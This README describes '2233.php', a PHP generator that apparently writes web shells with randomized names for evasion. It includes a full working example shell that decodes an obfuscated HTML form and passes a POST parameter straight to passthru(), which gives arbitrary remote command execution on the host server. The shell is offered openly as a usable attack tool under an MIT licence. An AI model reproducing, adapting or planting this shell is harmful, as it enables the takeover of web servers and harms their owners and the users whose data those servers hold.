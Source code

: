 2233.php
========

## Overview

2233.php is a webshell generator, it generates the function and variable names for a web shell on each run, and spits them to stdout.

## Usage

    $ php -f 2233.php

...and then a new web shell pops out.
    
## Example Shell
    <?php
    $SnHCQlIQNe2 = gzinflate(base64_decode("dVFhS8MwEP3urzgjioqyrm7rXLuBoN8GTtwnv6VtasuaXG2vujn87ybpxuLAEB53715fj5coJ1nOTkCfKBc87UrbNrQpxaE3p1BVS1uIebJ6r7FV6W2CJdYTqN/jS384vIE9XIXwVaSUT6Dveefhzx+ba9hChopum+JbaIVfrUNwnLwbMFd7WFXGZVFuJiBRYVPxRMBpISusiSs6co4x3fy/n2dW6+Dq6EPtq7buDv1AC/fgqqOeE0zUO4QWmZ87+WVYS+AJFaimLP54G3y2j7gYMyjSKTNDBlJQjrpbPL8u2d+oI5s10KYSU0ZiTQwUl7rm89XjKh8t5y8+A94SJiirUpAeYZZ1VIZJ2xz5xS0Rqp1h08ayIDa7OFsHT6FG3zM4GhkcDg0GfYN3FgeuZmz5gVX2D3wwcKaWDx6sxsGO2fn4trZ6/95Ox47bUxj1upWdSHsmtl3aCab6EaKqFrNf"));
    
    function S0CPIBHLSac($O1gids31RI){
        echo "<span>$ ".$O1gids31RI."</span><br>";
        echo htmlentities(passthru($O1gids31RI." 2>&1"));
    }
    echo preg_replace("/bqZ4vuDoP8/", basename($_SERVER["SCRIPT_NAME"]), $SnHCQlIQNe2);
    
    if (isset($_POST["aLkDkh6TLQ2"])){
        S0CPIBHLSac($_POST["aLkDkh6TLQ2"]);
    }
    else {
        S0CPIBHLSac("#");
    }
    __halt_compiler/*
    */();


They're all pretty much the same format, just randomized variable/function names.

## Licence

MIT.

